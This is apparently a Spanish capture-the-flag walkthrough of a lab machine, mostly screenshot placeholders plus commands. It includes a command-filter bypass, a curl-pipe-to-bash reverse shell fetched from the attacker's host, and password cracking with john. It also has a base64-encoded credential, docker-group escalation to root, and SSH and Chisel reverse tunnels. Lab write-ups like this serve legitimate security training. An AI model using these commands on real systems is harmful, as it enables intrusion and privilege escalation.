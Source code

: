 Escaneamos con nmap
![[Pasted image 20240602111714.png]]

Encontramos 3 puertos abiertos, 21, 22 y 80, revisando encontramos que esta activado el modo anonimo en el puerto 21
![[Pasted image 20240602111915.png]]

Encontramos un fichero que al descargarlo aparentemento podemos ver dos posibes usuarios, `Apaar` y `Anurodh
![[Pasted image 20240602111946.png]]

Ahora revisaremos el puerto 80, revisamos la web y no encontramos nada especial, realizamos fuzzing
![[Pasted image 20240602112219.png]]

Encontramos algo interesante, hay una ruta escondida llamada secret la cual nos permite ejecutar ciertos comandos, para revisar que comandos podemos ejecutar utilizaremos BurpSuite, capturamos la peticion
![[Pasted image 20240602113017.png]]

Una vez capturada copiamos la respuesta y lo pegamos en intruder y modificamos el campo a sustitiuir
![[Pasted image 20240602113138.png]]

Una vez echo esto vamos a Payloads y configuramos el ataque
![[Pasted image 20240602113308.png]]

Una vez preparado lo ejecutamos y vemos el resultado de los comandos que podemos ejecutar
![[Pasted image 20240602113610.png]]

Ahora intentaremos obtener una reverse shell, pero antes revisamos y encontramos que antes de ejecutar un comando añadimos `\` nos saltamos el filtro de comandos
![[Pasted image 20240602120223.png]]

Como vemos tenemos el archivo index.php, lo leemos y la pestaña que aparece es la siguiente
![[Pasted image 20240602120303.png]]

Si inspeccionamos el codigo podemos ver que ahora aparece algo diferente
![[Pasted image 20240602120335.png]]

Ahora si que vamos a buscar obtener una reverse shell, primero creamos el fichero y lanzamos un servidor de python
![[Pasted image 20240602122553.png]]

Ahora ejecutando el siguiente comando obtendremos la reverse shell
```Bash
curl http://10.9.0.126:80/shell.sh | b\ash
````

Verificamos que se ha descargado
![[Pasted image 20240602122700.png]]

Y aqui tenemos la reverse shell generada
![[Pasted image 20240602122748.png]]

Antes de continuar creamos una TTY estable y totalmente funcional
[[TTY Interactiva]]

Una vez obtenida la TTY completa pasaremos a la fase de post explotación

Comenzamos revisando los binarios
![[Pasted image 20240602124440.png]]

Revisamos el fichero /etc/passwd
![[Pasted image 20240602124506.png]]

Revisamos la carpeta home y encontramos que existen 3 usuarios
![[Pasted image 20240602124628.png]]

Revisamos los puertos internos abiertos y encontramos un localhost
![[Pasted image 20240602124554.png]]

Revisamos los binarios ejecutables y encontramos el archivo helploine.sh el cual se puede ejecutar con sudo sin password
![[Pasted image 20240602124656.png]]

Lo analizamos
![[Pasted image 20240602124853.png]]

Ahora lo ejecutamos con los permisos del usuario apaar para obtener la flag de user
```Bash
sudo -u apaar /home/apaar/.helpline.sh
```
![[Pasted image 20240602125240.png]]

Ahora podremos seguir dos rutas que nos llevaran al mismo lugar, nosotros realizaremos las dos para explotar por completo la maquina.

Revisando la maquina victima encontramos un fichero sospechoso en la ruta `/var/www/files`en el fichero hacker.php
![[Pasted image 20240603075600.png]]

Nos descargamos el fichero creando un servidor de python
![[Pasted image 20240603075716.png]]
![[Pasted image 20240603075745.png]]

Una vez descargado utilizaremos steghide para revisar si hay algo oculto en la images y vemos que nos descarga un archivo llamado backup.zip protegido por contraseña
![[Pasted image 20240603075910.png]]

La crackearemos con John the ripper, con el siguiente comando primero generamos un hash para luego romperlo
```bash
zip2john backup.zip > backup_hash.txt
```
![[Pasted image 20240603080224.png]]

Y ahora con john crackeamos la paswword
```Bash
john backup_hash.txt --wordlist=/home/wolf/rockyou.txt
```
![[Pasted image 20240603080414.png]]

Lo descomprimimos y obtenemos un fichero llamado source_code.php
![[Pasted image 20240603080553.png]]

Leemos el fichero y encontramos una password en base64
![[Pasted image 20240603080639.png]]

Lo descodificamos y obtenemos las credenciales del usuario anurodh
```bash
echo 'IWQwbnRLbjB3bVlwQHNzdzByZA==' | base64 -d 
```
![[Pasted image 20240603080752.png]]

Lo comprobamos y efectivamente esa es su password
![[Pasted image 20240603081011.png]]

Revisamos los privilegios y encontramos que esta en el grupo de docker
![[Pasted image 20240603081126.png]]

Ejecutando el siguiente comando obtendremos una bash con privilegios de root
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
![[Pasted image 20240603081231.png]]


# Ruta alternativa
Ahora seguiremos una ruta distinta a la cual obtendremos la misma imagen, anteriormente hemos enumerado que había un puerto abierto en la maquina victima
![[Pasted image 20240602124554.png]]

Revisando la captura anterior encontramos el puerto interno 9001 abierto como localhost, para conectarnos necesitamos hacer un tunel inverso, lo haremos de dos maneras distinas, una con SSH y la otra con el binario Chisel

## Crear tunel inverso con SSH
Primero creamos las llaves de SSH
```Bash
ssh-keygen -f id_rsa
```
![[Pasted image 20240603090123.png]]

Copiamos la id de la clave publica
```Bash
cat id_rsa.pub
```
![[Pasted image 20240603090212.png]]

Añadimos la clave publica al fichero de `authorized_keys`
![[Pasted image 20240603090538.png]]
![[Pasted image 20240603093712.png]]

A la clave privada le añadimos los permisos `600`
```Bash
chmod 600 id_rsa
```
![[Pasted image 20240603095740.png]]

Y ahora ya podremos conectarnos con el siguiente comando
```Bash
ssh -i id_rsa -L 9001:127.0.0.1:9001 apaar@10.10.93.142
```
![[Pasted image 20240603095818.png]]

Ahora si accedemos al navegador y escribimos la ruta del puerto que hemos conectado por el puente veremos lo que hay configurado
![[Pasted image 20240603095905.png]]

## Crear tunel con Chisel
Para poder crear un tunel con chisel primero es necesario tener el binario en las dos maquinas, como apunte a tener en cuenta, el binario tiene que ser compatible con la arquetectura del sistema, en este caso uno es amd para la victima y el otro es arm para la maquina atacante, podemos transferir el fichero por un servidor de python

Aquí lo tenemos en la maquina atacante
![[Pasted image 20240603101617.png]]

Y aqui en la maquina victima
![[Pasted image 20240603102122.png]]


Una vez esta creado levantamos un servidor en la maquina atacante
```bash
./chisel server -p 8000 --reverse
```
![[Pasted image 20240603102321.png]]

Y para conectarnos desde la maquina victima usaremos el siguiente comando
```bash
./chisel client 10.9.0.138:8000 R:9001:127.0.0.1:9001
```
![[Pasted image 20240603102512.png]]

Si volvemos donde hemos levantado el servidor aparecera la conexión creada
![[Pasted image 20240603102601.png]]

Y ya podríamos acceder a nuestro servicio desde nuestra maquina atacante
![[Pasted image 20240603102640.png]]


Continuando con la maquina si ahora realizamos un SQLI accederemos al portal
![[Pasted image 20240603103014.png]]

Al inciar sesión nos aparecera la siguiente pestaña
![[Pasted image 20240603103057.png]]

Como podemos ver es otra manera de ver la imagen que previamente habiamos descargado desde la ruta y desde aqui podriamos descargarla
